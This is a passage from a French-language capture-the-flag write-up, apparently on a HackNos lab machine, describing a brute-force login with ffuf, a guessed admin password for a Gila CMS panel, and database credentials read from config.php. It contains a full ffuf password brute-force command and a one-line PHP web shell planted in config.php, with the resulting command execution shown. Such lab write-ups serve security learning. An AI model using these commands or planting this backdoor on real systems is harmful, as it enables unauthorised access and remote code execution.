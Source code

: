 J'ai utilisé *ffuf* pour la première fois sur cet usage bien précis et je me suis aperçu (d'abord via les résultats et après avec Wireshark) que ce dernier ne rajoute pas par défaut le bon content-type pour la requête. Il faut donc le spécifier quand on bruteforce un POST :  

```bash
$ ffuf -w rockyou.txt -X POST -d "username=contact@hacknos.com&password=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -u http://192.168.2.10/websec/admin -fr Wrong
```

Le filtre *-fr* permet d'exclure les pages qui auraient un certain pattern dans leur contenu.  

J'ai fait de même avec *admin@hacknos.com* qu'il semblait réaliste d'essayer aussi.  

Petit détail amusant : si on tente de bruteforcer depuis un navigateur on déclenche au bout d'un moment un mécanisme de protection, protection qui n’apparaît pas via *ffuf* car il ne tient pas compte des cookies définis par l'appli web :p  

Là encore, point de résultats :(   

Comme j'avais précédemment tilté sur la typo *Securityx* qui apparaissait sur la page */websec* je l'ai tout simplement essayé comme mot de passe et cela m'a ouvert la porte avec l'email *contact@hacknos.com*.  

Webshell
--------

L'accès récupéré permet de voir la version du *Gila* : 1.10.9  

Pour autant, une fois de plus, pas de vulnérabilités réellement exploitables. L'appli dispose d'un gestionnaire de fichier avec une fonction d'upload mais je ne suis pas parvenu à trouver de dossier avec les permissions d'écriture.  

On peut toutefois éditer un fichier et j'ai jeté mon dévolu sur le fichier *config.php*.  

On trouve d'ailleurs dans ce fichier les identifiants pour la base de données :  

```php
$GLOBALS['config'] = array (
  'db' => 
  array (
    'host' => 'localhost',
    'user' => 'cmsu',
    'pass' => 'securityx',
    'name' => 'cms',
  ),
```

J'ai rajouté ces instructions à la fin du fichier :  

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Je n'ai pas compris comment accéder directement au fichier *config.php* (quelle est son URL) mais un fichier de ce type doit être inclus dans à peu près toutes les pages de l'application. Effectivement il m'aura suffit d'appeler *http://192.168.2.10/websec/?cmd=id* pour avoir l'exécution de commande attendue :  

```plain
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
